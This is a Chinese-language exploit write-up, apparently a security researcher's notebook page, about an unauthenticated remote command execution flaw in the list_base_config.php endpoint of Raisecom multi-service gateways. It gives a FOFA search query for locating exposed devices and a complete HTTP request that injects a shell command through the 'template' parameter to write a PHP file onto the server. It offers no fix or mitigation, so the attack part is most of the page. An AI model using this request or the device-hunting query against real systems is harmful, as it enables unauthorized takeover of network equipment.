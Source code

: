 # 瑞斯康达多业务智能网关list_base_config存在远程命令执行漏洞

# 一、漏洞简介
瑞斯康达多业务智能网关是一款集多种功能于一体的网络设备，专为中小企业及行业分支机构设计，以满足其多业务接入和带宽提速的需求，如MSG2100E系列、MSG2300系列等，是瑞斯康达科技发展股份有限公司推出的新一代网络产品。这些网关集成了数据、语音、安全、无线等多种功能，能够为用户提供综合、完整的网络接入解决方案。它们广泛应用于政企单位、商务楼宇、校园、工业园区等场景，为用户带来高效、便捷的网络体验。瑞斯康达-多业务智能网关 list_base_config.php 存在远程命令执行漏洞，未经身份验证的远程攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 二、影响版本
+ 瑞斯康达多业务智能网关

# 三、资产测绘
+ fofa`body="/images/raisecom/back.gif" && title=="Web user login"`
+ 特征

![1722216563849-bac29c1c-6bcf-4634-8051-d96acefe908e.png](./img/jEltp2OV3_wK85dl/1722216563849-bac29c1c-6bcf-4634-8051-d96acefe908e-196339.png)

# 四、漏洞复现
```plain
GET /vpn/list_base_config.php?type=mod&parts=base_config&template=%60echo+-e+%27%3C%3Fphp+phpinfo%28%29%3Bunlink%28__FILE__%29%3B%3F%3E%27%3E%2Fwww%2Ftmp%2Ftest.php%60 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![1722216633171-d33a04cb-0e0c-4a38-b59b-caf1c7f1a753.png](./img/jEltp2OV3_wK85dl/1722216633171-d33a04cb-0e0c-4a38-b59b-caf1c7f1a753-243264.png)

```plain
/tmp/test.php
```

![1722216618489-31d51d65-a8f3-4f28-b081-ffb6c09b68c5.png](./img/jEltp2OV3_wK85dl/1722216618489-31d51d65-a8f3-4f28-b081-ffb6c09b68c5-111231.png)



> 更新: 2024-08-12 17:48:53  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yrdl3xmt2n3qpy2e>
